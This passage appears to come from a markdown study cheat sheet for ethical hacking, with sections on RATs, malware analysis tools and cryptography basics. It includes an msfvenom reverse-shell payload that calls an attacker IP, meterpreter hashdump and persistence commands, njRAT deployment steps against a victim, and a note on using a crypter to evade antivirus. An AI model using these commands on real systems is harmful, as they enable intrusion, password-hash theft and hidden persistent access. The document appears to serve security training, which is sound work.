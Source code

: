   Identify Hidden Running Services:  
    `Get-Service | Where-Object {$_.Status -eq "Running"}`    #Windows  
    `ps aux | grep -i "nc\|meterpreter\|rat" `               # Linux  
  Gaining access via meterpreter then:  
  ````
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER-IP> LPORT=4444 -f exe > rat.exe
    msfconsole
     ~ use exploit/multi/handler
     ~ meterpreter > sysinfo   #or getuid   #user privilege or hashdump  #Extract password hashes
     ~ meterpreter > persistence -U -i 5 -p 4444 -r <ATTACKER-IP>  # Maintain access
  ````
  Applications like njRAT, DarkComet, QuasarRAT  
  - Download and install njRAT (file from github blackall9) 
  -	Start njRAT application with default port number and Build then enter attacker IP
  -	Check required checkbox’s on right
  -	Have that Executed on victim machine
  -	Attacker will get the session active in njRAT console

</details>

##### Theef
  > Server exe need to be run on victim and client exe on Attacker

#### Malware Analysis
- [Virus Total](https://www.virustotal.com/gui/home/search)
- [Hybrid Analysis](https://www.hybrid-analysis.com/)
- Antiscan.me
- DIE Tool `die /path/to/binary.exe` or `diec /path/to/binary`
  
 > swazycrypter encryptes the application with more complexity/hash to avoid antivirus to find it.

<h3>__Cryptography__</h3>

> Symmetric Encryption: Use same key for Encryption and decryption  
> Asymmetric Encryption: Use Public/Private for Encryption and Decryption

##### Hashing/decoding
<details><summary>To find the password of a ZIP file</summary></details>
